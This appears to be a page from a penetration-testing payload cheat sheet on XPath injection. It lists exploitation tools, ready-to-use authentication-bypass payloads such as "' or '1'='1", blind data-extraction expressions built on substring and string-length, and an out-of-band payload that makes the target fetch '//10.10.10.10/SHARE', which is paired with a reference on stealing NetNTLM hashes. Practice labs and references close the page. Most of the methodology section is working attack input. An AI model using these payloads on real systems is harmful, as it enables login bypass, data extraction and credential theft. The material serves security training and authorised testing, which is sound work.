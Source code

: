 # XPATH Injection

> XPath Injection is an attack technique used to exploit applications that construct XPath (XML Path Language) queries from user-supplied input to query or navigate XML documents.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Blind Exploitation](#blind-exploitation)
    * [Out Of Band Exploitation](#out-of-band-exploitation)
* [Labs](#labs)
* [References](#references)

## Tools

* [orf/xcat](https://github.com/orf/xcat) - Automate XPath injection attacks to retrieve documents
* [feakk/xxxpwn](https://github.com/feakk/xxxpwn) - Advanced XPath Injection Tool
* [aayla-secura/xxxpwn_smart](https://github.com/aayla-secura/xxxpwn_smart) - A fork of xxxpwn using predictive text
* [micsoftvn/xpath-blind-explorer](https://github.com/micsoftvn/xpath-blind-explorer)
* [Harshal35/XmlChor](https://github.com/Harshal35/XMLCHOR) - Xpath injection exploitation tool

## Methodology

Similar to SQL injection, you want to terminate the query properly:

```ps1
string(//user[name/text()='" +vuln_var1+ "' and password/text()='" +vuln_var1+ "']/account/text())
```

```sql
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
')] | //user/*[contains(*,'
') and contains(../password,'c
') and starts-with(../password,'c
```

### Blind Exploitation

1. Size of a string

    ```sql
    and string-length(account)=SIZE_INT
    ```

2. Access a character with `substring`, and verify its value the `codepoints-to-string` function

    ```sql
    substring(//user[userid=5]/username,2,1)=CHAR_HERE
    substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
    ```

### Out Of Band Exploitation

```powershell
http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')
```

## Labs

* [Root Me - XPath injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-Authentication)
* [Root Me - XPath injection - String](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-String)
* [Root Me - XPath injection - Blind](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-Blind)

## References

* [Places of Interest in Stealing NetNTLM Hashes - Osanda Malith Jayathissa - March 24, 2017](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
* [XPATH Injection - OWASP - January 21, 2015](https://www.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010))
